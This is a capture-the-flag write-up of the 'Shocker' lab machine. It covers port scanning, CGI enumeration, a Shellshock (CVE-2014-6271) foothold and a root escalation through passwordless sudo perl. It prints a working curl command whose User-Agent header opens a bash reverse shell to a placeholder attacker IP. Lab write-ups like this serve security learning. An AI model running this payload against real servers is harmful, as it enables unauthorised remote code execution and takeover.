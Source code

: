 # Shocker

## Summary

**Vulnerability Exploited:** Shellshock (CVE-2014-6271)

**Vulnerability Explanation:** "GNU Bash through 4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment." (Via [NIST.](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)) When a Linux Apache HTTP server has "cgi_mod" enabled, attackers can send such crafted environments through headers in GET requests to CGI scripts.

**Privilege Escalation Vulnerability****:** Perl NOPASSWD sudo execution

## Penetration

We begin with an nmap port scan.

![](screenshots/nmap-tcp.png)

The web server looks like our best bet.

![](screenshots/homepage.png)

Gobuster finds very little on the server except /cgi-bins/.

![](screenshots/gobuster-common.png)

At this point, considering the name of the machine, we can be relatively confident that we need to exploit the infamous Shellshock bash vulnerability to get our initial foothold. To do this, we need to find a script in /cgi-bin/ to make a request to. Unfortunately, /cgi-bins/ is not listable, nikto and nmap "http-shellshock.nse" can't find a vulnerable script, and standard seclists for enumerating GGIs don't appear to find anything. However, we can find /cgi-bin/user.sh by using gobuser to search for common script file extensions.

![](screenshots/gobuster-cgi.png)

Now we can test for the shellshock vulnerability.

![](screenshots/shellshock-poc.png)

Excellent! We can get a shell using the command **curl -H "User-Agent: () { :;}; echo;/bin/bash -i \>& /dev/tcp/\<attacker ip\>/443 0\>&1" 10.10.10.56/cgi-bin/user.sh**

![](screenshots/shelly-proof.png)

We have gotten a shell as the user Shelly. We can check what commands Shelly can run with high privileges using "sudo -l". We find that Shelly can sudo perl without a password. Since perl can run system commands, this is sufficient for a root shell.

![](screenshots/root-proof.png)